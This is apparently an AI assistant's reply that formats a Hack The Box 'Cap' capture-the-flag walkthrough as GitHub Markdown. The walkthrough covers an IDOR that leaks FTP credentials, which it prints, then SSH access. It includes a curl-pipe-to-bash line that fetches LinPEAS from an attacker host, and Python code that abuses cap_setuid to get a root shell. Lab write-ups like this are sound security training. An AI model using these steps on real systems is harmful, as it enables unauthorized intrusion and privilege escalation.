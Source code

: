 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```

**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](../images/2%20Webpage.jpg)
![Network Info on Web Dashboard](../images/3%20Web%20Dashboard.jpg)
```

#### **02-Foothold.md**
```markdown
# Foothold

## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

![Security Snapshot](../images/4%20Security%20Snap%20shot.jpg)
![Security Snapshot - User 0](../images/5%20Scurity%20Snap%20Shot%20user%200.jpg)

## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```

![SSH into Nathan](../images/9%20ssh%20into%20nathan.jpg)

You now have a foothold on the system.
```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```

The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![User Flag](../images/10%20user%20flag.jpg)
```

---

This Markdown content is designed for your GitHub write-up. Make sure the images are placed in a folder named `images` inside the Cap folder in your GitHub repository, and update the image paths accordingly.

Let me know if you need more adjustments!
